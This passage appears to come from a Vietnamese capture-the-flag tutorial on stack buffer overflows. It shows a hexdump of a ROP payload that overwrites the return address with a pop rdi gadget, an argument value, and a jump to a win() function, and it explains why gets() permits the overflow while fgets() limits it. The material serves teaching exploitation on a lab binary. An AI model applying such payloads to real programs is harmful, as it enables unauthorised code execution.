 Payload này phức tạp hơn 1 chút

```bash
[DEBUG] Sent 0x79 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  41 41 41 41  ef be ad de  │AAAA│AAAA│AAAA│····│
    00000050  42 42 42 42  42 42 42 42  						│BBBB│BBBB|
    ## Như cũ
    
    c0 11 40 00  00 00 00 00  									│··@·│····│
    ## Địa chỉ pop rdi 0x4011C0
    
    00000060  d4 c3 b2 a1  00 00 00 00  					     │····│····|
    ## Đưa 0xA1B2C3D4 vào rdi
    
    00 00 00 00  00 00 00 00  								    │····│····│
    ## Pad vào rbp
    
    00000070  c4 11 40 00  00 00 00 00  0a                         │··@·│····│·│
    00000079
    ## Địa chỉ bắt đầu hàm win() 0x4011C4
```

Lưu ý cái này dùng được do chương trình nhận dữ liệu của người dùng = `gets()` - Nhập bao nhiêu cũng nhận

Nếu dùng các phương thức khác như `scanf()` `fgets()` thì có thể sẽ không nhập được nhiều như ở đây mà phải sử dụng một vài kĩ thuật khác

Ví dụ như không dùng `gets()` mà dùng `fgets(s, 88, stdin)` chẳng hạn thì ta chỉ làm tràn được thêm 12 byte, đến được hết `RBP` thì sẽ không thể ghi đè lên `RIP` được do sau byte thứ 88 `fgets()` không nhận thêm nữa

